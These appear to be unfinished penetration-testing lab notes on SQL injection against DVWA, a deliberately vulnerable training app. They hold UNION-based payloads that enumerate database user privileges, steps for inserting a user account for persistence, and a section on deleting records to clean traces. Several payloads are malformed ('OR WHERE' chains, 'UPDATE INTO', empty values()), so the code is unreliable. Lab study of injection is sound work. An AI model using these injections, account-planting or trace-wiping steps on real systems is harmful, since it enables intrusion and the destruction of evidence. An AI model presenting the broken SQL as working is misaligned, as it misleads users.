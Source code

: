 # 02 - Initial Foothold and Persistence

## 2.1 - Create User Account

TODO: Figure out using SQL queries to create a user account

### 2.1.1 - Conditions

1. The DB user must have **SELECT**, **INSERT**, **UPDATE**, **DELETE**, **DROP** privileges.

### 2.1.2 - Enumerate Database User Privileges

TODO: Make it better

```sql
' UNION SELECT NULL, GROUP_CONCAT(user, '->', Select_priv, user, '->', Select_priv) FROM mysql.user#

' UNION SELECT NULL, GROUP_CONCAT(user, '->', Select_priv) FROM mysql.user WHERE Select_priv='Y' OR WHERE Insert_priv='Y' OR WHERE Update_priv='Y' OR WHERE Delete_priv='Y' OR WHERE Drop_priv='Y'#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES WHERE PRIVILEGE_TYPE LIKE 'SELECT' OR WHERE PRIVILEGE_TYPE LIKE 'INSERT' OR WHERE PRIVILEGE_TYPE LIKE 'UPDATE' OR WHERE PRIVILEGE_TYPE LIKE 'DELETE' OR WHERE PRIVILEGE_TYPE LIKE 'DROP'#
```

### 2.1.3 - INSERT values

`' INSERT INTO dvwa.users values()#`

### 2.1.4 - UPDATE values

`' UPDATE INTO dvwa.users values()#`

### 2.1.5 - Clean Traces

- DELETE Query after INSERTing

- UPDATE Query

TODO: Demonstrate it to wipe traces in the DB when you insert values

```sql
SELECT * FROM <database_name>.<table_name>;

' UNION SELECT * NULL FROM <database_name>.<table_name>#
```

Empty the table with the DELETE Statement
